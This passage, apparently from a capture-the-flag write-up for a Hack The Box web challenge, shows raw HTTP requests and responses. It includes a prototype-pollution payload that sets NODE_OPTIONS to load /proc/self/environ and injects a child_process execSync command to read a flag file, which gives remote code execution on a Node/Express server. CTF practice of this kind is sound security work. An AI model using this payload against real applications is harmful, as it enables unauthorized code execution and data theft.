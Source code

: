 #### Result
```
GET /debug/version HTTP/1.1
Host: 144.126.236.38:32064
User-Agent: XXX

HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/plain; charset=utf-8
Date: Wed, 19 Apr 2023 15:58:24 GMT
Connection: close
Content-Length: 149

VersionCheck.js
flag_e1T6f
helpers
index.js
node_modules
package-lock.json
package.json
routes
static
views

Everything is OK (v12.18.1 == v12.18.1)
```
### Getting the flag
#### Payload
```javascript
POST /api/calculate HTTP/1.1
Host: 144.126.236.38:32064
User-Agent: XXX
Content-Type: application/json

{
  "constructor": {
    "prototype": {
      "env": {
        "payload": "console.log(require(\"child_process\").execSync(\"cat flag_e1T6f\").toString())//",
        "NODE_OPTIONS": "--require /proc/self/environ"
      }
    }
  }
}
```

#### Result
```
GET /debug/version HTTP/1.1
Host: 144.126.236.38:32064
User-Agent: XXX


HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/plain; charset=utf-8
Date: Wed, 19 Apr 2023 16:04:25 GMT
Connection: close
Content-Length: 84

HTB{l0**Redacted**ng}
Everything is OK (v12.18.1 == v12.18.1)
```